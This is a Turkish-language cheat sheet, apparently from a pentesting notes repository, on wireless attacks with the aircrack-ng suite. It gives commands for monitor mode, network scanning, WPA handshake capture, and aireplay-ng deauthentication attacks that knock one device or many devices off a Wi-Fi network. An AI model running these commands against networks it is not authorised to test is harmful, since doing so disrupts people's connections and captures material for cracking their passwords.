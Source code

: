## 06. WİRELESS ATTACKS (KABLOSUZ SALDIRI):

### Airmon-ng
    Ağ kartını dinleme moduna almaya yarar.
    
    Bağlı adaptörleri görme:
    `iwconfig  / airmon-ng`
    
    Ağ kartını dinleme moduna alma :
    1.	`airmon-ng start wlan0` 
    2.	`iwconfig wlan0 mode monitor`
    3.	`iw dev wlan0 set type monitor`  // “iw dev wlan0 info” ile kontrol edebilirsin
    Üç farklı işlem ile yapılabilir. Bitince wlan0mon moduna geçer.
    Modlar arası geçiş yaparken ağ kartını devre dışı bırakmayı unutma. ( “iwconfig wlan0 up / down” )
### Airodump-ng
    Etrafındaki kablosuz ağları listeleme :
    `airodump-ng wlan0mon`
    NOT: Ağ kartını dinleme moduna alıp wireshark ile etraftaki ağlar hakkında bilgi toplayabilirsin.
    
    Kanala özel tarama yapma:
    `airodump-ng wlan0mon -c kanal no`
    
    Erişim noktalarının üreticisi hakkında bilgi edinme:
    `airodump-ng wlan0mon --manufacturer`
    
	Üretici listesini güncellemek için:  
	`airodump-ng-oui-update`
	
    Hedef kablosuz ağ hakkında handskahe yakalama :
    `airodump-ng -b bssid_adresi -C kanal_no -w /root/Desktop... wlan0mon`
    -b (--bssid) = Hedef mac adresi
    WPA handshake yazana kadar bekle. .cap dosyası oluşacak. 
    
    `--uptime` komutu ile ağın ne kadar süredir yayın yaptığını kontrol edebiliriz.
	`airodump-ng  wlan0mon -w /root/Desktop... --uptime`

### Aireplay-ng 
    Wifi ağından cihaz düşürmede kullanılır. Cihazın ağdan düşüp tekrar bağlanması ya da yeni bir kullanıcının ağa bağlanması sırasında handshake dosyası yakalanır. Bu dosya içerisinde ağın parolası hakkında bilgi vardır.
    
    Tek Cihaz Saldırısı:
    `aireplay-ng --deauth 5 -a hedef_modem_mac_adresi -c hedef_cihaz_mac_adresi wlan0mon`
    5 sayısı gönderdiği paket sayısı, ne kadar artarsa ağdan kopma süresi artar.
    `aireplay-ng --deauth 5 -a modem_mac_adresi -c hedef_mac_adresi wlan0mon & > /dev/null&`
    Enter basınca pid no verir, arka planda çalışır. Aynı komutu girip hedef mac adresini değiştirip ikinci cihaza saldırı başlatılabilir. 
    
    `jobs` komutu ile arka planda çalışanlar görülür. 
    `kill %sıra no` komutu ile işlem durdurulur.
    `killall aireplay-ng` komutu ile tüm işlemler durdurulur.
    
    Çoklu Cihaz Saldırısı:
    `aireplay-ng --deauth 1000 -a modem_mac_adresi`

